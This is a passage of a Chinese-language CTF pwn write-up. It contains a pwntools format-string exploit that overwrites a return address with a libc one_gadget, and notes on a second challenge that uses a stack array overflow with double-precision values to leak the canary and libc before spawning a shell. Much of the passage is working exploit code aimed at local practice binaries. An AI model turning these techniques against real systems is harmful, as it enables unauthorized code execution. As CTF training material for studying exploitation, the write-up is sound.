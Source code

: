 ```python
gadgets = [0x4f2c5,0x4f322,0x10a38c]
onegadget = libc_base + gadgets[1]
lg('onegadget',onegadget)
p.sendline('%15$p')
p.recvuntil('0x')
ret_addr = int(p.recvuntil('\n',drop = True),16) - 0xD8

# low
pl = '%{}c%{}$hnxxx\x00'.format((ret_addr)&0XFFFF,9)
p.sendline(pl)
ru('xxx')
pl = '%{}c%{}$hhnxxx\x00'.format((onegadget)&0XFF,35)
p.sendline(pl)
ru('xxx')

#mid
pl = '%{}c%{}$hhnxxx\x00'.format((ret_addr+1)&0XFF,9)
p.sendline(pl)
ru('xxx')

pl = '%{}c%{}$hhnxxx\x00'.format((onegadget>>8)&0XFF,35)
p.sendline(pl)
ru('xxx')

# high
pl = '%{}c%{}$hhnxxx\x00'.format((ret_addr+2)&0XFF,9)
p.sendline(pl)
ru('xxx')
pl = '%{}c%{}$hhnxxx\x00'.format((onegadget>>16)&0XFF,35)
p.sendline(pl)
ru('xxx')

p.sendline('66666666\x00')

p.interactive()
```

## pwn2022411(数组越界+双精度数值转换)

题目一功能没有输入点，且运行后直接退出，暂时不知道如何利用

二功能有一个栈上的数组越界，但输入的值是双精度的浮点数，这个网站进行进制转换[Base Convert: IEEE 754 Floating Point](https://baseconvert.com/ieee-754-floating-point)。通过调试发现当我们输入None（python中的空值）赋值循环语句会跳过一个进行赋值，利用二功能的输出函数，使得”总分“=canary即可泄露canary(这里因为输出保留小数点后2位，而栈上的一些函数真实地址因为只有6字节，往往转换为双精度数时都是0.000000x太小了，无法泄露)

拿到canary后我们控制执行流再执行一遍泄露libc（puts->puts_got），最后写onegadget获得shell（这里exponegadget是本地的libc版本2.27-1.5的）

```python
from pwn import *
import struct
context.log_level='debug'

p=process('./pwn')

elf = ELF("./pwn")
libc=elf.libc

s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
```